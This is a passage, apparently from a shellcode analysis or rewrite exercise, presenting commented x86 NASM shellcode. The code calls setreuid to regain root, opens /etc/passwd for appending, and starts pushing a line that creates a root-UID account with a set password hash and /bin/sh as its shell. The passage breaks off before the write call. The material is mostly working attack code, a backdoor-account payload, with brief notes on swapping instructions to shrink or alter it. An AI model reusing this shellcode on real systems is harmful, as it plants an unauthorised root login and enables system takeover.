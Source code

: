 Next, I replace the `push`, `pop` with a `mov` instruction, as similar to the previous case, the return value of the previous `write()` call only fills the leaset significant byte, so it should be safe.

```x86asm
; push byte +0x1      
; pop eax
mov al, 0x1
```


## Disassembled (Cleaned and commented)

Final code in the form of a `.nasm` file.

```x86asm
global _start

section .text
_start:
    ; xor ecx,ecx
    sub ecx, ecx
    
    ; mov ebx,ecx
    xor ebx, ebx

    push byte +0x46
    pop eax             ; 0x46 from stack
        ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 70$"
        ; setreuid()
        ; int setreuid(uid_t ruid, uid_t euid);
    int 0x80



    ; a successful setreuid() returns 0), thus, eax should be zero
    ; thus, we can just set the least significant byte to 0x5. This also reduces
    ; the number of bytes in the shellcode by 1.
    
    ; push byte +0x5
    ; pop eax             
    mov al, 0x5

    xor ecx,ecx
    push ecx
    push dword 0x64777373   ; (ascii) dwss
    push dword 0x61702f2f   ; (ascii) ap//
    push dword 0x6374652f   ; (ascii) cte/
    mov ebx,esp             ; /etc//passwd
    inc ecx                 ; ecx = 1
    mov ch,0x4              ; ecx = 0x401 (O_WRONLY|O_APPEND)
    int 0x80                ; open("/etc//passwd", 0x0401)

    ; xchg eax,ebx            ; ebx = ptr to file
    mov ebx, eax


    ; push payload string to stack, added / to pad dword
    ; username:AzydwfoigBTrs:0:0::/:///bin/sh

    ; pop ecx             ; ptr to 0x2b
    push 0x2d2d6868         ; "---h"
    push 0x732f6e69         ; "s/ni"
    push 0x622f3a2f         ; "b/:/"
    push 0x3a3a303a         ; "::0:"
```